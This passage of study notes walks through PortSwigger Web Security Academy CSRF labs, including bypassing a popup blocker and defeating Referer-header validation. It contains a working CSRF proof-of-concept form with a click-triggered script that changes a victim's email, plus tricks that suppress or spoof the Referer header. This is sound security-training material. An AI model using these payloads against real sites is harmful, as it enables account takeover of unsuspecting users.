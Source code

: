 **Bypassing the popup blocker**
- popups are blocked becuase you haven't manually interacted with the page
- tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

- store view yourself, then devlier to victim

### CSRF where Referer validation depends on header being present

- Send the request to Burp Repeater and observe that if you change the domain in the Referer HTTP header then the request is rejected.
- Delete the Referer header entirely and observe that the request is now accepted. 
- follow methodology from beginning to craft csrf poc, add this to the HTML to suppress the `Referer header`

```<meta name="referrer" content="no-referrer">```

- store and deliver to victim
 
### CSRF with broken Referer validation

- Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history
- Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected
- Copy the original domain of your lab instance and append it to the Referer header in the form of a query string. The result should look something like this `Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net`
- sending the request shows that it accepts an referer header as long as it contains the expected domain somewhere in the string
- create methodology csrf poc from top, and edit the JavaScript so that the `history.pushState()` includes a query string with your lab instance URL `history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")`
- if you run into issues viewing the exploit add this to the exploit server in the `Head` section `Referrer-Policy: unsafe-url`
- deliver to victim

